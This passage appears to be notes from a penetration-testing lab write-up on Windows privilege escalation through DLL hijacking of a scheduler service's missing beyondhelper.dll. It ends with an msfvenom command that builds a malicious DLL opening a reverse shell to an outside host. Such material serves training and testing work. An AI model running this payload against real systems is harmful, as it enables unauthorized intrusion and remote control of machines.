

PowerUp won't find anything.

We have a service: *C:\Scheduler\scheduler.exe* that has a dependency **customlib.dll**.

We will get the executable on our machine and analyze it for DLL hijacking.
Check this: <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#finding-missing-dlls>
We will find:

**beyondhelper.dll** is missing.
We will create a malicious DLL (make sure to use x64 arch).

```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.227 LPORT=80 -f dll -o beyondhelper.dll
```
